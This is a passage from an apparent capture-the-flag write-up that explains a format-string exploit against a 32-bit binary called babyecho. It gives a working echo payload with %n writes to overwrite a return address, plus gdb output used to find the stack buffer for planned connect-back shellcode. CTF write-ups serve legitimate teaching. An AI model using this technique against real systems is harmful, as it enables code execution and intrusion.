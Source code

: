 I'm happy to report that I'm doing this all by hand to write the blog, and I got that working on my first try. :)

A quick word of warning: if you're trying to jump to an address like 0x44434241, you have to write "41 42 43 44" to memory. To write the 0x41, as usual you'll want to use %49x%7$n. That means that 65 (0x41) bytes have been output so far. To then output 0x42, you need one more byte written. The problem is that %1x can output anything between 1 and 8 bytes, because it won't truncate the output. You have to use either "%257x" or just a single byte, like "A". I fought with that problem for quite some time during this level...

<h2>Let's summarize what we've done...</h2>

I feel like I've written a lot. According to my editor, I'm at 708 lines right now. And it's all pretty crazy!

So here's a summary of where we are before we get to the last step...

<ul>
  <li>We used %n and a static address to change the max length of the input string</li>
  <li>We gave it four addresses to edit, which wind up on the stack (see func_a)</li>
  <li>We use %NNx, where NN = the number of bytes we want to waste, to ensure %n writes the proper value</li>
  <li>We use %7$n to write to the first address, %8$n to write to the second address, %9$n to write to the third address, and %10$n to write to the fourth, with a %NNx between each of them to make sure we waste the appropriate number of bytes</li>
</ul>


And now for the final step...

<h2>Going somewhere useful</h2>

For the last part, instead of jumping to 0x41414141 or 0x41424344, we're going to jump to some shellcode. Shellcode is, basically, "code that spawns a shell". I normally wind up Googling for the exact shellcode I want, like "32-bit Linux connect back shellcode", and grabbing something that looks legit. That's not exactly a great practice in general, because who knows what kind of backdoors there are, but for a CTF it's not a big deal (to me, at least :) ).

Before we worry about shellcode, though, we have to figure out where to stash it!

It turns out, for this level, the stack is executable. That makes life easy - I wrote an exploit that ROPed to mprotect() to make it executable before running the shellcode, then realized that was totally unnecessary.

Since we can access the buffer with "%x" in the format string, it means the buffer is definitely on the stack somewhere. That means we can find it exactly like we found everything else - open up the corefile and start looking at the stack pointer (esp).

Let's use the same exploit as we just used to crash it, but this time we'll put some text after that we can search for:

<pre>
$ <span class='in'>echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%52x%7$n''%255x%8$n''%255x%9$n''%255x%10$n''AAAAAAAAAAAAAAAAAAAAAAAAAA' | ./babyecho &gt; /dev/null</span>
Segmentation fault (core dumped)

$ <span class='in'>gdb -q ./babyecho ./core</span>
#0  0x41424344 in ?? ()
(gdb) <span class='in'>x/10000xw $esp</span>
0xffffc150:     0x00000003      0x00000000      0x00000000      0x00000000
0xffffc160:     0x00000000      0x00000000      0x00000000      0x00000000
...
0xffffc6c0:     0x39257835      0x32256e24      0x25783535      0x6e243031
0xffffc6d0:     0x41414141      0x41414141      0x41414141      0x41414141
</pre>
